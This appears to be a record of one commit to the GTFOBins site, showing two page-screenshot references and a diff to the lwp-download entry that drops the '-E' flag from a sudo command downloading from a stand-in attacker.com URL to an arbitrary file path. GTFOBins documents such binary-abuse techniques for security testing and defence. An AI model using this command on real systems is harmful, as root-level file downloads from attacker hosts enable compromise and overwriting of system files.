

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/lwp-download.md, in a window 1280 px wide. Shown: the part 785-976 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/lwp-download.md
+++ b/_gtfobins/lwp-download.md
@@ -15,5 +15,5 @@ functions:
     - code: |
         URL=http://attacker.com/file_to_get
         export LFILE=file_to_save
-        sudo -E lwp-download $URL $LFILE
+        sudo lwp-download $URL $LFILE
 ---
```
Also changed, not shown: _gtfobins/curl.md (+1 -1 lines), _gtfobins/dd.md (+1 -1 lines), _gtfobins/tftp.md (+1 -1 lines), _gtfobins/wget.md (+1 -1 lines).
